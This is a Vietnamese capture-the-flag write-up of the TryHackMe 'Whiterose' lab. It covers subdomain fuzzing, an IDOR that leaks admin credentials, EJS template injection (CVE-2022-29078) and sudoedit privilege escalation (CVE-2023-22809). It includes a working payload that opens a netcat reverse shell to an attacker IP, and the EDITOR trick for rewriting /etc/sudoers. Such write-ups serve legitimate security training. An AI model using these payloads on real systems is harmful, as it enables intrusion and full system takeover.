 # [THM] Whiterose write-up

- IP: 10.10.238.251

## Recon

Sử dụng nmap để dò quét các cổng và dịch vụ đang mở
> nmap -sT -sV -sC -T4 10.10.238.251

![Scan nmap](./img/nmap-scan.png)

Có 2 port dịch vụ đang mở bao gồm
- Port 22 chạy dịch vụ SSH
- Port 80 chạy dịch vụ HTTP 

Truy cập port 80 ta thấy đã redirect sang `cyprusbank.thm` và không truy cập được

![Redirect fail](./img/redirect-fail.png)

Ta thêm host này vào `/etc/hosts' thì giao diện web đã hiển thị như dưới 

![Web interface](./img/web-interface.png)

Tiếp tục scan bằng ffuf để tìm thư mục ẩn 
> ffuf -u "http://cyprusbank.thm/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt

![Hidden dir scan](./img/dir-scan.png)

Kết quả là không có thư mục nào vậy tiếp tục scan subdomain 
> ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://cyprusbank.thm/ -H "Host:FUZZ.cyprusbank.thm" -fw 1 -t 100 -mc 200,301,302

Có một số tham số ta chưa từng nhắc đến như
- -H: thay vì fuzz đường dẫn, ta fuzz giá trị của header Host. FUZZ là placeholder sẽ được thay bằng từng dòng trong wordlist
- -fw 1: loại bỏ các subdomain có 1 ký tự
- -t: chạy 100 thread đồng thời
- -mc 200,301,302: chỉ hiển thị kết quả có mã phản hồi HTTP 200 (OK), 301 (Moved Permanently), hoặc 302 (Found)

![Subdomain scan](./img/subdomain-scan.png)

Ta truy cập vào subdomain `admin/cyprusbank.thm` nó redirect sang `admin/cyprusbank.thm/login` và có giao diện form login (cần thêm subdomain vào `/etc/hosts`)

![Login form](./img/login-form.png)

Ta sẽ đăng nhập với tài khoản `Olivia Cortez:olivi8` mà đề bài đã cho 

![Olivia dashboard](./img/olivia-dashboard.png)

Đã đăng nhập được vào dashboard nhưng trường phone đang bị ẩn và không thể thấy được số điện thoại của Tyrell Wellick

Sau khi khám phá nhận ra ở `/messages` có param `c=5` được truyền vào. Ta thử thay đổi giá trị của param `c` xem có điều gì xảy ra không

![Olivia message](./img/olivia-message.png)

Thực hiện scan bằng công cụ burpsuite với chức năng intruder

![Intruder position](./img/intruder-position.png)
![Intruder payload](./img/intruder-payload.png)

Với param `c=0` ta nhận được username, password của admin `Gayle Bev` 

![Gayle Bev account](./img/admin-account.png)

## Tyrell Wellick's phone number
Sau khi đăng nhập bằng tài khoản admin đã có thể xem tất cả thông tin bao gồm số điện thoại của Tyrell Wellick

![Tyrell phone number](./img/tyrell-phonenum.png)

## Exploit 
Khám phá và nhận ra `/setting` có thể mắc lỗ hổng XSS vì thông tin trong input được hiển thị trên giao diện người dùng khi save

![Setting test](./img/setting-test.png)
![XSS test](./img/xss-test.png)
 
Có vẻ đã có chút nhầm lẫn, thử post 1 vài param và nhận ra trang web sử dụng `EJS` là 1 template engine được nodejs sử dụng. Khi mà sử dụng template engine ta có thể nghĩ ngay tới việc trang web có thể gặp phải lỗ hổng `SSTI`

![EJS template](./img/ejs-template.png)

Tìm kiếm thông tin và nhận thấy có thể tận dụng `CVE-2022-29078` để khai thác có thể tham khảo [EJS, SSTI RCE](https://eslam.io/posts/ejs-server-side-template-injection-rce/)

Với payload và thực hiện thiết lập **netcat lisner** trên máy attacker ta đã có thể truy cập vào user shell

```
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 10.21.113.26 1234 -e /bin/sh');s
```

Ta cùng làm rõ payload trên nhé. Với `EJS 3.1.6` vị trí lỗi `ejs/lib/ejs.js` trong hàm
```js
if (opts.outputFunctionName) {
  buf.push('function ' + opts.outputFunctionName + '(str) { __append(str); }');
}
```
``opts.outputFunctionName`` là string từ user, không kiểm tra định dạng truyền trực tiếp bất kẻ là chuỗi nào nên dẫn tới có thể injection code
Khi chạy đoạn payload trên thì code sẽ được thực thi như sau 
```js
function x;
process.mainModule.require('child_process').execSync('busybox nc 10.21.113.26 1234 -e /bin/sh');
function s(str) { __append(str); }
```
- function x; định nghĩa 1 function rỗng `x`, kết thúc sớm bằng `;`
- mainModule.require('child_process') gọi tới module **child_process**, thực thi reverse shell ⇒ **mã thực thi nguy hiểm được chèn vào giữa**
- ```execSync('busybox nc 10.21.113.26 1234 -e /bin/sh')``` tạo revershell (đã thực hiện thử với nc và bash đều không được, tới busybox thành công)
- `;` kết thúc lệnh
- ```function s(str) { __append(str); }``` Đảm bảo đoạn sau vẫn là mã JavaScript hợp lệ ⇒ tránh lỗi parse code

![Payload](./img/payload.png)
![User shell](./img/user-shell.png)

## user.txt
![User flag](./img/user-flag.png)

## Privilege escalation
Run `sudo -l` để check user hiện tại có quyền thực thi với quyền root mà không cần mật khẩu

![Sudo -l](./img/sudo-l.png)

Tìm kiếm và nhận thấy có thể leo thang đặc quyền dựa trên `sudoedit` với `CVE-2023-22809` [Sudoedit Privilege Escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudoedit-privilege-escalation/)


```sh
web@cyprusbank:~$ export EDITOR="vim -- /etc/sudoers"
web@cyprusbank:~$ whoami
whoami
web
web@cyprusbank:~$ sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

Câu lệnh trên lợi dụng trick trong `EDITOR` để mở thêm `/etc/sudoers` khi chỉnh sửa file được phép (admin.cyprusbank.thm)

![Privilege escalation](./img/privilege-escalation.png)

Hiện tại ta đang có shell của user `web` nên ta cần thêm `web ALL=(ALL) NOPASSWD:ALL` vào `/etc/sudoers` để cho phép user web thực hiện bất kì lệnh nào với quyền root mà không cần mật khẩu 

Sau đó truy cập root shell với câu lệnh `sudo su root` ta đã có root shell
## root.txt
![Root flag](./img/root-flag.png)

![Done](./img/complete.png)

**DONE**


